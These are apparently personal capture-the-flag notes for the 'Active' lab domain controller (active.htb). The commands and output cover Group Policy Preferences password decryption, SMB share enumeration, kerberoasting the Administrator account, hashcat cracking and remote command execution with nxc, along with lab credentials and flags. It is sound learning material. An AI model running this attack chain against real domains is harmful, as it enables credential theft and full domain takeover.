

==
tags: #windows #smb #kerberoasting #gpp
=

* nmap
  #+begin_src bat
  $ sudo nmap -sV -sC -oA nmap/active.basic 10.129.18.255

PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Microsoft DNS 6.1.7601 (1DB15D39) (Windows Server 2008 R2 SP1)
| dns-nsid: 
|_  bind.version: Microsoft DNS 6.1.7601 (1DB15D39)
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-04-14 08:11:51Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
49152/tcp open  msrpc         Microsoft Windows RPC
49153/tcp open  msrpc         Microsoft Windows RPC
49154/tcp open  msrpc         Microsoft Windows RPC
49155/tcp open  msrpc         Microsoft Windows RPC
49157/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49158/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows_server_2008:r2:sp1, cpe:/o:microsoft:windows
  #+end_src
  ok, DNS => this is a DC
** full scan
  #+begin_src 
  $ sudo nmap  -p- -A -T4 -oA nmap/active.full 10.129.18.255
  #+end_src
* smb
  try null session
  #+begin_src bat
  $ nxc smb 10.129.18.255

SMB  10.129.18.255   445    DC  [*] Windows 7 / Server 2008 R2 Build 7601 x64 (name:DC) (domain:active.htb) (signing:True) (SMBv1:None) (Null Auth:True)
  #+end_src
** rpcclient
   #+begin_src bat
   $ rpcclient -U'%' 10.129.18.255

rpcclient $> enumdomusers
do_cmd: Could not initialise samr. Error was NT_STATUS_ACCESS_DENIED
   #+end_src
** try reading shares
   #+begin_src 
   $ nxc smb 10.129.18.255  -u '' -p '' --shares

SMB    [*] Windows 7 / Server 2008 R2 Build 7601 x64 (name:DC) (domain:active.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB    [+] active.htb\: 
SMB    [*] Enumerated shares
SMB    Share           Permissions     Remark
SMB    -----           -----------     ------
SMB    ADMIN$                          Remote Admin
SMB    C$                              Default share
SMB    IPC$                            Remote IPC
SMB    NETLOGON                        Logon server share 
SMB    Replication     READ            
SMB    SYSVOL                          Logon server share 
SMB    Users                           
   #+end_src
** smbclient
   #+begin_src bat
   smbclient -U '' //10.129.18.255/Replication

smb: \active.htb\> recurse ON
smb: \active.htb\> prompt OFF
smb: \active.htb\> mget *
   #+end_src
   this is what the share looks like:
   #+DOWNLOADED: file:C%3A/Users/shyam/Desktop/2026-04-14_10-53.png @ 2026-04-14 10:54:20
   
* Groups.xml
  #+begin_src xml
<?xml version="1.0" encoding="utf-8"?>
<Groups clsid="{3125E937-EB16-4b4c-9934-544FC6D24D26}"><User clsid="{DF5F1855-51E5-4d24-8B1A-D9BDE98BA1D1}" name="active.htb\SVC_TGS" image="2" changed="2018-07-18 20:46:06" uid="{EF57DA28-5F69-4530-A59E-AAB58578219D}"><Properties action="U" newName="" fullName="" description="" cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ" changeLogon="0" noChange="1" neverExpires="1" acctDisabled="0" userName="active.htb\SVC_TGS"/></User>
</Groups>
  #+end_src
* decrypt with gpp-decrypt
  #+begin_src
  $ gpp-decrypt edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ

GPPstillStandingStrong2k18
  #+end_src
* evil-winrm
  #+begin_src bat
  evil-winrm -i active.htb -u SVC_TGS -p GPPstillStandingStrong2k18

Connection refused - Connection refused - connect(2) for "active.htb" port 5985 (active.htb:5985)
  #+end_src
  port 5985 is not open; can't connect
* smb
  #+begin_src bat
  nxc smb 10.129.18.255 -u SVC_TGS -p GPPstillStandingStrong2k18 --shares

SMB   Share           Permissions     Remark
SMB   -----           -----------     ------
SMB   ADMIN$                          Remote Admin
SMB   C$                              Default share
SMB   IPC$                            Remote IPC
SMB   NETLOGON        READ            Logon server share 
SMB   Replication     READ            
SMB   SYSVOL          READ            Logon server share 
SMB   Users           READ     
  #+end_src
** read Users share
   #+begin_src bat
   smbclient -U 'SVC_TGS%GPPstillStandingStrong2k18' //10.129.18.255/Users

smb: \> dir

Administrator                       D        0  Mon Jul 16 12:14:21 2018
All Users                       DHSrn        0  Tue Jul 14 07:06:44 2009
Default                           DHR        0  Tue Jul 14 08:38:21 2009
Default User                    DHSrn        0  Tue Jul 14 07:06:44 2009
desktop.ini                       AHS      174  Tue Jul 14 06:57:55 2009
Public                             DR        0  Tue Jul 14 06:57:55 2009
SVC_TGS                             D        0  Sat Jul 21 17:16:32 2018     
   #+end_src
   inside the SVC_TGS directory, we can see the user.txt file; so let's download everything
   like before;
   #+begin_src bat
   smb: \> recurse ON
   smb: \> prompt OFF
   smb: \> mget *  
   #+end_src
* user flag
  #+begin_src bat
  $ cat user.txt     

d86ce78cee0f5911be112b876e66911e
  #+end_src
* bloodhound
  #+begin_src bat
  rusthound-ce -u 'SVC_TGS' -p 'GPPstillStandingStrong2k18' -d 'active.htb' -c All --zip
  #+end_src
  no significant path from owned objects
* netlogon and sysvol
  #+begin_src bat
  smbclient -U 'SVC_TGS%GPPstillStandingStrong2k18' //10.129.26.8/NETLOGON
  #+end_src
  there's nothing in here
  #+begin_src bat
  smbclient -U 'SVC_TGS%GPPstillStandingStrong2k18' //10.129.26.8/SYSVOL
  #+end_src
* kerberoasting
  #+begin_src bat
  $ nxc ldap active.htb -u SVC_TGS -p 'GPPstillStandingStrong2k18' --kerberoasting kerberoasting.out

LDAP        [*] Windows 7 / Server 2008 R2 Build 7601 (name:DC) (domain:active.htb) (signing:None) (channel binding:No TLS cert)
LDAP        [+] active.htb\SVC_TGS:GPPstillStandingStrong2k18 
LDAP        [*] Skipping disabled account: krbtgt
LDAP        [*] Total of records returned 1
LDAP        [*] sAMAccountName: Administrator, memberOf: ['CN=Group Policy Creator Owners,CN=Users,DC=active,DC=htb', 'CN=Domain Admins,CN=Users,DC=active,DC=htb', 'CN=Enterprise Admins,CN=Users,DC=active,DC=htb', 'CN=Schema Admins,CN=Users,DC=active,DC=htb', 'CN=Administrators,CN=Builtin,DC=active,DC=htb'], pwdLastSet: 2018-07-18 21:06:40.351723, lastLogon: 2026-04-28 18:08:12.540544
LDAP        $krb5tgs$23$*Administrator$ACTIVE.HTB$active.htb\Administrator*$5467e99<SNIP>
  #+end_src
* crack
  #+begin_src bat
  hashcat -m 13100 kerberoasting.out /usr/share/wordlists/rockyou.txt

Ticketmaster1968
  #+end_src
* read flag
  #+begin_src bat
  nxc ldap active.htb -u Administrator -p 'Ticketmaster1968' -X "type C:\Users\Administrator\Desktop\root.txt"

nxc: error: unrecognized arguments: -X type C:\Users\Administrator\Desktop\root.txt
  #+end_src
  let's try with smb
  #+begin_src bat
  $ nxc smb active.htb -u Administrator -p 'Ticketmaster1968' -X "type C:\Users\Administrator\Desktop\root.txt"

SMB         10.129.26.8     445    DC               631a112e0f353a5f7e08939e95bfd753
  #+end_src
* ippsec
** hostname
   we know the domain is =active.htb= from the nmap output, so let's lookup the hostname
*** nslookup
    #+begin_src
    $ nslookup
> server 10.129.26.8
Default server: 10.129.26.8
Address: 10.129.26.8#53

> 127.0.0.1
1.0.0.127.in-addr.arpa  name = localhost.

> 10.129.26.8
^C
    #+end_src
    this times out so try =dnsrecon=
*** dnsrecon
    #+begin_src bat
    dnsrecon -d 10.129.26.8 -r 10.0.0.0/8
    #+end_src
    this takes forever
    let's try ldapsearch
*** ldapsearch
    it is in fact a lot faster:
    #+begin_src bat
    ldapsearch -x -H ldap://10.129.26.8 -s base namingContexts dnsHostName
# extended LDIF
#
# LDAPv3
# base <> (default) with scope baseObject
# filter: (objectclass=*)
# requesting: namingContexts dnsHostName 
#

#
dn:
namingContexts: DC=active,DC=htb
namingContexts: CN=Configuration,DC=active,DC=htb
namingContexts: CN=Schema,CN=Configuration,DC=active,DC=htb
namingContexts: DC=DomainDnsZones,DC=active,DC=htb
namingContexts: DC=ForestDnsZones,DC=active,DC=htb
dnsHostName: DC.active.htb

# search result
search: 2
result: 0 Success

# numResponses: 2
# numEntries: 1
    #+end_src
** GetADUsers
   uses this script to find the users
   #+begin_src bat
   impacket-GetADUsers -all -dc-ip 10.129.26.8 active.htb/SVC_TGS -p

[*] Querying 10.129.26.8 for information about domain.
Name                  Email   PasswordLastSet             LastLogon           
--------------------  -----   ----------------------      -------------------
Administrator                 2018-07-18 21:06:40.351723  2026-04-28 18:08:12.540544 
Guest                         <never>                     <never>             
krbtgt                        2018-07-18 20:50:36.972031  <never>             
SVC_TGS                       2018-07-18 22:14:38.402764  2026-04-29 10:29:55.436002 
   #+end_src
** smbmap
   uses this tool to list all the files in a share and selectively download the interesting
   ones:
   #+begin_src bat
   smbmap -d active.htb -u svc_tgs -p GPPstillStandingStrong2k18 -H 10.129.26.8 -r Users --depth 5

   <SNIP>
   ./Users//SVC_TGS/Desktop
   dr--r--r--                0 Sat Jul 21 17:14:42 2018    .
   dr--r--r--                0 Sat Jul 21 17:14:42 2018    ..
   fw--w--w--               34 Tue Apr 28 18:08:10 2026    user.txt
[*] Closed 1 connections                                                         
   #+end_src
** Bloodhound - Kerberoastable Users
   tries the query =Shortest Path to Domain Admin from Kerberoastable Users= and it shows the
   =Administrator= user as Kerberoastable.
** psexec
   use psexec to get a shell as admin
